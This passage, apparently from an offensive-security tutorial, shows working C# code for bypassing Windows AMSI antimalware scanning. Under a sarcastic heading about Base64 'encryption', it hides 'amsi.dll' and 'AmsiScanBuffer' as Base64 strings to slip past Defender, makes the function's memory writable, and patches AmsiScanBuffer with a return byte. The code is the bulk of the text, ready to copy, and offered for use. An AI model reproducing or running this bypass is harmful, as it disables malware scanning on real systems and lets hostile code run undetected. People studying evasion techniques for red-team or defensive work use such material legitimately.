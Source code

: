 ```c#
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
```

### 3)  Base64 the Values

We all know that Base64 is the strongest level of encryption /s. So obviously Defender can't match this unbelievably complex algorithm, and we can just hide our strings this way and decode them on use. Awesome.

```c#
using System;
using System.Runtime.InteropServices;

public class Amsi
{
    static byte[] patchBytes = new byte[] { 0xC3 };

    public static void Bypass()
    {
        try
        {
            string encL = "YW1zaS5kbGw=";
            string decL = System.Text.ASCIIEncoding.ASCII.GetString(System.Convert.FromBase64String(encL));

            string encP = "QW1zaVNjYW5CdWZmZXI=";
            string decP = System.Text.ASCIIEncoding.ASCII.GetString(System.Convert.FromBase64String(encP));

            var lib = Win32.LoadLibrary(decL);
            var addr = Win32.GetProcAddress(lib, decP);

            uint oldProtect;
            Win32.VirtualProtect(addr, (UIntPtr)patchBytes.Length, 0x40, out oldProtect);

            Marshal.Copy(patchBytes, 0, addr, patchBytes.Length);
        }
        catch (Exception e)
        {
            Console.WriteLine(" [x] {0}", e.Message);
            Console.WriteLine(" [x] {0}", e.InnerException);
        }
    }
}

class Win32
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
```
